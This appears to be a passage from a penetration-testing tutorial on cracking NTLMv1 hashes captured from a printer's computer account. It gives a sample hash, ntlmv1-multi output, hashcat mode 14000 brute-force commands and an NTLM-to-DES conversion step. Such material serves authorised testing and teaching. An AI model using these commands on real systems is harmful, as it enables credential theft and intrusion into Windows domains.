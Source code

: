 Remember that the printer will use the computer account during the authentication, and computer accounts use **long and random passwords** that you **probably won't be able to crack** using common **dictionaries**. But the **NTLMv1** authentication **uses DES** ([[#ntlmv1-challenge)), so using some services specially dedicated to cracking DES you will be able to crack it (you could use [https://crack.sh/](https://crack.sh) or [https://ntlmv1.com/](https://ntlmv1.com) for example|more info here]].

### NTLMv1 attack with hashcat

NTLMv1 can also be broken with the NTLMv1 Multi Tool [[https://github.com/evilmog/ntlmv1-multi|https://github.com/evilmog/ntlmv1-multi]] which formats NTLMv1 messages im a method that can be broken with hashcat.

The command

```bash
python3 ntlmv1.py --ntlmv1 hashcat::DUSTIN-5AA37877:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788
```
```
would output the below:

```bash
['hashcat', '', 'DUSTIN-5AA37877', '76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D', '727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595', '1122334455667788']

Hostname: DUSTIN-5AA37877
Username: hashcat
Challenge: 1122334455667788
LM Response: 76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D
NT Response: 727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595
CT1: 727B4E35F947129E
CT2: A52B9CDEDAE86934
CT3: BB23EF89F50FC595

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin BB23EF89F50FC595 1122334455667788

To crack with hashcat create a file with the following contents:
727B4E35F947129E:1122334455667788
A52B9CDEDAE86934:1122334455667788

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1

To Crack with crack.sh use the following token
NTHASH:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595
```
```
Create a file with the contents of:

```bash
727B4E35F947129E:1122334455667788
A52B9CDEDAE86934:1122334455667788
```
```
Run hashcat (distributed is best through a tool such as hashtopolis) as this will take several days otherwise.

```bash
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```
```
In this case we know the password to this is password so we are going to cheat for demo purposes:

```bash
python ntlm-to-des.py --ntlm b4b9b02e6f09a9bd760f388b67351e2b
```